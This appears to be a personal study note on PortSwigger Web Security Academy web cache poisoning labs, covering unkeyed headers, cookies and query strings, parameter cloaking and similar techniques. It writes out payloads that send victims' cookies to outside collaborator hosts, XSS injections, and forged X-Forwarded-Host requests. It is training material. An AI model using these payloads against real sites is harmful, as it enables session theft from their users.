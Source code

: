 ___

Watch for `/resources/js/tracking.js` file and `X-Cache: hit` header in response.
If you got only tracking.js without X-Cache - no cache poisoning here.

![[Pasted image 20240808103007.png]]

If you got both file and header, the first thing you should try is to inject your exploit server into **Host:** or **X-Forwarded-Host:** headers and check them in response

![[Pasted image 20240808103015.png]]

You got the poisoned cache with X-Forwarded-Host? Cool, now go to your exploit server, set the File name /resources/js/tracking.js and in Body section paste the next payload: `document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')`. Poison web cache with your server and wait for victim's cookies.

```js
document.location='https://OASTIFY.COM/?cookies='+document.cookie;
```

# Web cache poisoning with an unkeyed header

The application supports the use of a custom HTTP header to override the Host header, and uses a cache that can be manipulated into saving responses that have been influenced by this header.  
  
Burp added the following headers to the request:  
  
X-Forwarded-Host: wvv7qb16dsbmfio5z8d5hum5bwhp5gt9uxkka8z.oastify.com  
X-Host: wvv7qb16dsbmfio5z8d5hum5bwhp5gt9uxkka8z.oastify.com  
X-Forwarded-Server: wvv7qb16dsbmfio5z8d5hum5bwhp5gt9uxkka8z.oastify.com


![[Pasted image 20240808105803.png]]

## Cookie steal

X-Forwarded-Host: exploit-0ab30085047ba7ec862a98ec018d0091.exploit-server.net

Exploit server: 
	File: /resources/js/tracking.js
	Body: document.location='http://00ytfwduj1605olk3s3bahg31u7mvb.oastify.com/?cookies='+document.cookie;

![[Pasted image 20240808112148.png]]


# Web cache poisoning with an unkeyed cookie

![[Pasted image 20240808152709.png]]

```js
test"-alert(1)-"test
```

![[Pasted image 20240808152936.png]]

# Web cache poisoning with multiple headers

![[Pasted image 20240809035334.png]]

The `Location` header shows that you are being redirected to the same URL that you requested, but using `https://`

![[Pasted image 20240809035608.png]]

> On exploit-server change the file name to match the path used by the vulnerable response: /resources/js/tracking.js. In body write `alert(document.cookie)` script.

```
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: exploit-server.web-security-academy.net/
X-Forwarded-Scheme: http
```

To check that the response was cached correctly, right-click on the request in Burp, select "Copy URL", and load this URL in Burp's browser.


# Targeted web cache poisoning using an unknown header

X-Forwarded-Host: exploit-0a56003803b033f28209c8f101b900f2.exploit-server.net  
X-Host: exploit-0a56003803b033f28209c8f101b900f2.exploit-server.net  
X-Forwarded-Server: exploit-0a56003803b033f28209c8f101b900f2.exploit-server.net

Vary: User-Agent

```html
<img src="http://7fnahm68mm5got179axb1rv59wfn3c.oastify.com/" />
```

User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Change User-Agent on the request
![[Pasted image 20240809114403.png]]

# Web cache poisoning via an unkeyed query string

utm_content=yui1kx7r00
Origin: x
```js
/?cb=1244&utm_content=vaina'/><script>alert(1)</script>
```

```js
/?utm_content='/><script>document.location="https://OASTIFY.COM?c="+document.cookie</script>
```

# Web cache poisoning via an unkeyed query parameter

```js
/?utm_content=123'/><script>alert(1)</script>
```

# Parameter cloaking

Param Miner extension doing a `Bulk scan > Rails parameter cloaking scan` will _**identify**_ the vulnerability automatically. Manually it can be identified by adding `;` to append another parameter to `utm_content`, the cache treats this as a single parameter. This means that the extra parameter is also excluded from the cache key.

```js
/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
```


# Web cache poisoning via a fat GET request

![[Pasted image 20240812072707.png]]

